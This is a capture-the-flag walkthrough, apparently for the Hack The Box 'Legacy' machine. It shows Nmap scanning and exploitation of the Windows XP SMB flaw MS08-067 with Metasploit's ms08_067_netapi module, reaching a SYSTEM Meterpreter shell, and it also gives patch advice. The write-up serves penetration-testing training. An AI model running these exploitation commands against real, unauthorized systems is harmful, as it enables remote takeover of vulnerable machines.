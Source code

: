 [Done](Done)
## ⚙️ Machine Info:

- **Name**: Legacy
- **IP**: `10.10.10.4`
- **OS**: [Windows XP SP3](Windows)
- **Difficulty**: [Easy](Easy)
- **Exploits Used**:
    - [SMB](SMB) vulnerability: **MS08-067 (CVE-2008-4250)** — Remote Code Execution
- **Tools**:
    - [Nmap](https://nmap.org/)
    - [Metasploit](https://www.metasploit.com/)
    - [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

---

## 🔍 Recon

### 📌 Add to `/etc/hosts`

```bash
echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

### 🔎 Nmap Full TCP Scan

```bash
nmap -sC -sV -p- -Pn -T4 legacy.htb
```

### 🔐 Vulnerability Scan (Targeted SMB Ports)

```bash
nmap -p 135,139,445 -sT -A -O -sV -sC --script vuln -Pn -T4 legacy.htb
```

✅ **Findings**: Vulnerable to [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) – MS08-067 (Server Service Vulnerability)

---

## 💥 Exploitation

### 🚀 Launch Metasploit

```bash
msfconsole -q
```

### 🔍 Search for Exploit

```bash
search CVE-2008-4250
```

✅ Use: `exploit/windows/smb/ms08_067_netapi`

### 🛠️ Configure Payload

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST tun0
run
```

---

## 🐚 Meterpreter Shell

### 🎉 Confirm Access

```bash
getuid
```

✅ Output: `NT AUTHORITY\SYSTEM`

### 📁 Navigate to Flags

```shell
cd "Documents and Settings/john/Desktop"
type user.txt

cd ../../Administrator/Desktop
type root.txt
```

---

## 🛡️ Mitigation

> **Patch Recommendation**:  
> Apply [Microsoft Security Bulletin MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) to fix the remote code execution vulnerability in the Server service. This update is **critical** for Windows XP, 2000, and 2003 systems.

---

## 🧠 Actions Learned from This Box

- Importance of **patching legacy systems** 🩹
- SMB port enumeration using Nmap
- Exploiting Windows vulnerabilities using **Metasploit**
- Using `Meterpreter` for privilege access and system exploration
- CVE identification and mitigation strategy 📚

---

## 🔗 References

- [NVD — CVE-2008–4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250)
- [MITRE — CVE-2008–4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [MS08-067 Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
